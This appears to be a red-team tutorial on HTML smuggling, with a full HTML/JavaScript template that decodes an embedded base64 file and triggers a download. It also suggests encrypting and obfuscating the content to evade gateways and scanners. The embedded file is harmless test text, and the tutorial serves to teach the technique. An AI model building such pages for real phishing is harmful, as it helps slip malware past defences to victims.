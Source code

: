 HTML smuggling is a means of leveraging modern HTML5 and JavaScript features to sneak files past traditional content filters.  In old-skool phishing emails, you may see something like a button with a simple HREF.  The file itself will sit somewhere in the web root, maybe `/var/www/html/report.zip`.  Then when clicked, the user's browser will perform another HTTP GET request to fetch the resource.  As it's being downloaded, scanners can see the file's content in the HTTP response.

HTML smuggling works by encoding the file in the HTML content itself and using JavaScript to decode and download it to the victim's machine.  This is a simple template based on work by [Stan Hegt](https://x.com/stanhacked).

```html
<html>
    <head>
        <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.2/css/brands.min.css">
    </head>
    <body>
        <button class="btn" onclick="downloadFile()"><i class="fa fa-download"></i> Download</button>

        <script>
            function convertFromBase64(base64) {
                let binary_string = window.atob(base64);
                let len = binary_string.length;
                let bytes = new Uint8Array(len);
                for (let i = 0; i < len; i++) {
                    bytes[i] = binary_string.charCodeAt(i);
                }
                return bytes.buffer;
            }

            function downloadFile() {
                const file = 'VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
                const fileName = 'test.txt';
                let data = convertFromBase64(file);
                let blob = new Blob([data], {type: 'octet/stream'});
                if (window.navigator.msSaveOrOpenBlob) {
                    window.navigator.msSaveBlob(blob,fileName);
                }
                else {
                    const a = document.createElement('a');
                    document.body.appendChild(a);
                    a.style = 'display: none';
                    const url = window.URL.createObjectURL(blob);
                    a.href = url;
                    a.download = fileName;
                    a.click();
                    window.URL.revokeObjectURL(url);
                }
            }
        </script>
    </body>
</html>
```

In this example, the file content is base64 encoded and held in the `file` variable - which means the file content is already in the victim's browser when they load the page.  When the button is clicked, the `downloadFile` JavaScript function is executed which decodes the file back into its raw form, constructs a new href, and automatically invokes it.  The browser will then drop the file into the user's default downloads directory.  From the perspective of a gateway or proxy, they will only see HTML and JavaScript.  Even when smuggling binary files, there will be no traffic generated using the `application/octet-stream` mime type, which they would see when using traditional download methods.  The file being base64 encoded is a simple example but we don't need to stop there.  For instance, we could use the [Web Crypto API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Crypto_API) to AES-encrypt the file content and [obfuscate](https://javascriptobfuscator.com/Javascript-Obfuscator.aspx) the JavaScript.